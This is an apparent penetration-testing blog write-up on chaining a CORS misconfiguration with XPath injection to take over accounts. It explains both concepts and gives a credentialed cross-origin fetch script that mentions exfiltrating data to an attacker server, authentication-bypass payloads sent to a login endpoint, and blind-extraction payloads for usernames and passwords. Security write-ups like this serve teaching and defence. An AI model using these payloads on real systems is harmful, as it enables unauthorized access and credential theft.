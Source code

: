 ```yaml
---
title: "CORS Misconfiguration to Account Takeover"
date: 2025-02-20
draft: false
description: "Chaining a CORS Misconfiguration with XPath-Injectino to take over arbitrary Accounts of the application"
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

Recently, during a penetration testing engagement, I uncovered a chain of exploits that began with a <span class="text-primary-400">CORS misconfiguration</span> and culminated in an account takeover / <span class="text-primary-400">authentication bypass via XPath injection in an API endpoint</span>. This article will describe the essentials of CORS, XPATH injections, and the way I was able to exploit the chain.

---

## <i class="fa-solid fa-bars text-primary-400"></i> Basics

### What Is CORS?
Cross-Origin Resource Sharing (<span class="text-primary-400">CORS</span>) is a security feature implemented in web browsers that allows web pages to make requests to a different domain than the one that served the web page. In simpler terms, it <span class="text-primary-400">enables a web application running on one domain to request resources from another domain securely</span>.

### Same-Origin Policy
To understand CORS, it's essential to understand the <span class="text-primary-400">same-origin policy</span>, a fundamental security concept in web development. By default, a <span class="text-primary-400">web browser restricts scripts on a web page from making requests to a different domain</span>. This means a script loaded from <span class="text-primary-400">one origin cannot interact with resources from another origin</span>.

An origin is defined by three components:
- <span class="text-primary-400">Protocol</span>: The communication method (e.g., `http`, `https`)
- <span class="text-primary-400">Host</span>: (domain and subdomain, e.g., `example.com`, `api.example.com`)
- <span class="text-primary-400">Port</span>: The server port number (e.g., `:80`, `:443`)

For example:
- `https://www.example.com` and `https://api.example.com` are different origins because the subdomains (<span class="text-primary-400">Host</span>) differ
- `http://www.example.com` and `https://www.example.com` are different origins because the protocols differ

### How Does CORS Work?
CORS provides a way for the server to <span class="text-primary-400">relax the same-origin policy by specifying who can access its resourcesy</span>. It does this through HTTP headers that tell the browser whether to allow a web page to access resources from a different origin.

#### Allowed Origins
```HTTP
GET /page HTTP/1.1
Host: example.com
Origin: https://www.example.com
```

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://www.example.com
```

When sending a request with the Origin header set, the webserver will respond with the `Access-Control-Allow-Origin` header, and if allowed, the requested Origin.

#### Authentication

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://www.example.com
Access-Control-Allow-Credentials: true
```

If the allow credentials header is configured, the browser is instructed to include authentication credentials, e.g. cookies, in the request automatically.

---

### What Is XPath?
XPath (<span class="text-primary-400">XML Path Language</span>) is a query language used for selecting nodes from an XML document. It allows you to <span class="text-primary-400">navigate through elements and attributes in an XML document</span>, making it easier to extract and manipulate data.

#### Basic Concepts
<span class="text-primary-400">Nodes</span>: The fundamental units in an XML document, including elements, attributes, text, and comments.

```XML
<library>
  <book category="fiction">
    <title>The Adventures of Tom Sawyer</title>
    <author>Mark Twain</author>
  </book>

  <book category="non-fiction">
    <title>A Brief History of Time</title>
    <author>Stephen Hawking</author>
  </book>
</library>
```

<span class="text-primary-400">Expressions</span>: XPath uses path expressions to select nodes or node sets in an XML document.

> Select the First <book> Element

`/library/book[1]`

> Select <book> Elements with a Specific Attribute

`/book[@category='fiction']`

---

## <i class="fa-solid fa-hammer text-primary-400"></i> The Exploit

### Endpoint Enumeration
The first step in any penetration test involves mapping out the application's attack surface. Normally, I begin by enumerating the API endpoints of the target. However, every endpoint I discovered required an authentication bearer token, preventing any further interaction without valid credentials

### CORS Misconfiguration
While enumerating the application, I noticed that there was a CORS misconfiguration regarding allowed origins. Upon sending a request containing arbitrary Origins, I got the following responses.

```HTTP
GET / HTTP/1.1
Host: target.com
Origin: https://www.attacker.com
```

```HTTP
HTTP/1.1 200 OK
Access-control-allow-origin: attacker.com
Access-Control-Allow-Credentials: true
```

The `Access-Control-Allow-Origin` header was set to a <span class="text-primary-400">wildcard</span>, effectively allowing any origin to access the resources. Combined with `Access-Control-Allow-Credentials: true`, this meant that <span class="text-primary-400">browsers would include cookies</span> and authentication credentials in cross-origin requests.

#### Exploiting CORS
```JS
fetch('https://target-application.com/protected-endpoint', {
  method: 'GET',
  credentials: 'include' // Tell the browser to include saved credentials
})
.then(response => response.json())
.then(data => {
  console.log(data);
  // Potentially exfiltrate data to attacker-controlled server
});
```

This script attempts to access a protected endpoint, with the browser including any credentials due to the misconfigured CORS policy. <span class="text-primary-400">That essentially means, that we can use the victims session to interact with the protected API functions</span>. Now that we bypassed the protected endpoints, let us check if there are any vulneratbillities within those API functions.

### Exploiting XPath
During recon I found an endpoint called `/token`. This endpoint is essentially used to <span class="text-primary-400">login via POST parameters</span> (username, password) and <span class="text-primary-400">retreive an API bearer token</span>, which can then be used to access and use the API functions. Here, different users had different access rights on different endpoints.
The <span class="text-primary-400">endpoint is using an XML document as a Database</span>. Here, XPath queries are used to search for a `user:password` combination in the Database and authenticate them. A basic query might look something like this:

```python
/root/*[password='Test123' and username='MyUser']
```

#### Injection Payload
```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or '1'='1&password=' or '1'='1
```

This payload (URL encoded) injects an <span class="text-primary-400">always-true condition</span> into the XPath query. The backend likely executed a query similar to:

```python
/root/*[password='' or '1'='1' and username='' or '1'='1']
```

Given the injected condition, the query most likely returns / uses the first user in the XML database, effectively bypassing authentication controls and <span class="text-primary-400">providing me with a valid Bearer Token for that account</span>, which I can then use to access their API functions.

#### Enumerating Users
To escalate the attack, we can try to enumerate usernames and extract passwords using XPath functions like `starts-with()` and `substring()`. By iterating over character positions and possible values, we can try to reconstructed usernames and passwords, gaining access to multiple accounts.

```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or string-length(username)=5 and '1'='1&password=irrelevant
```

```HTTP
POST /token HTTP/1.1
Host: target-application.com
Content-Type: application/x-www-form-urlencoded

username=' or substring(username,1,1)='a' and '1'='1&password=irrelevant
```

## <i class="fa-solid fa-table-list text-primary-400"></i> Conclusion
This engagement underscored how a <span class="text-primary-400">seemingly minor issues can be chained together for significant impact</span>. A CORS misconfiguration allowed me to bypass the same-origin policy, and an XPath injection in the authentication mechanism enabled full account compromise.